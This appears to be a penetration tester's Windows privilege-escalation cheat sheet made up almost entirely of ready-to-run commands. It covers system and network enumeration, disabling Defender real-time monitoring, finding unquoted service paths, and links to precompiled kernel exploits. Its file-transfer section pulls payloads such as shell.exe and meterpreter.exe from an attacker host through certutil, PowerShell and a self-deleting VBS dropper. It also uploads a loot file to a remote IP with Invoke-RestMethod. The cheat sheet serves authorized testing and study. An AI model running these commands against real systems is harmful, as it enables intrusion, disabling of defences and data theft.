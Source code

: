 # Enum    
    whoami /priv
    ipconfig /all     
    net users   
    net localgroup
    dir /r    
    tree /a /f     
    netstat /anto   
    for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.     
    
## Scripts
https://github.com/absolomb/Pentesting/blob/master/scripts/winenum.bat

## Powershell
    Get-ExecutionPolicy    
    Set-ExecutionPolicy Unrestricted   
    Set-MpPreference -DisableRealtimeMonitoring $true   
____   

# Exploits
## Service Exploits
### Unquoted Service Paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """   
    
## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   
### Tools
https://github.com/bitsadmin/wesng   
https://github.com/rasta-mouse/Watson   
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

____   


# File Transfer     
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
    copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat    
    
  
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out  
    
    Invoke-RestMethod -Method PUT -Uri "http://10.10.14.12:8001/l00t.txt" -Body $(Get-Content l00t.txt)

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

## XM File Creation (Using copy and paste)
    PS C:\> $console = [XML] @"
    <XML CODE CODE HERE>
    "@
    /# write the xml to file:
    PS C:\> $console.save("C:\users\burmat\documents\console.xml")
 ____   
  
# Resources
## Cheat Sheets
https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
## Learn More
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
  
